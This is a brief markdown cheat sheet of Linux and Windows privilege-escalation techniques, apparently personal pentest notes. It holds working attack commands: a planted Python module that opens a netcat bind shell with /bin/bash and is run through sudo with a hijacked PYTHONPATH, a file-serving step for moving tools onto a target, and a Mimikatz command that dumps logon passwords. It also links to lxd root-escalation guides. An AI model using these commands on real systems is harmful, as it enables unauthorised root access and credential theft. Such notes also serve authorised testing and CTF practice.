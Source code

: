 # Priv Esc

See https://github.com/diego-treitos/linux-smart-enumeration.

## Copying files to the target

```
python -m SimpleHTTPServer 8080
```

## Hijack root python scripts

```
$ cat shutil.py 
import os
os.system("nc -lvp 9001 -e /bin/bash")
$ sudo -E PYTHONPATH=$(pwd) script-you-can-run-that-imports-shutil.py
$ echo 'whoami' | nc localhost 9001
```

## lxd group rootage

See https://www.hackingarticles.in/lxd-privilege-escalation/.

## Compiling binaries when compiler tools aren't available

```
sudo gcc -Wall -o jj jj.c -march=i686 -m32 -Wl,--hash-style=both
```

```
sudo apt-get install gcc-multilib g++-multilib
sudo apt install g++-i686-linux-gnu
sudo apt install gcc-mingw-w64-i686
sudo apt install mingw-w64-i686-dev
```

* See https://opensource.com/article/19/7/cross-compiling-gcc.
* See https://github.com/dockcross/dockcross.

## Windows

```
whoami /all
```

* See http://www.fuzzysecurity.com/tutorials/16.html

### Mimikatz

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
```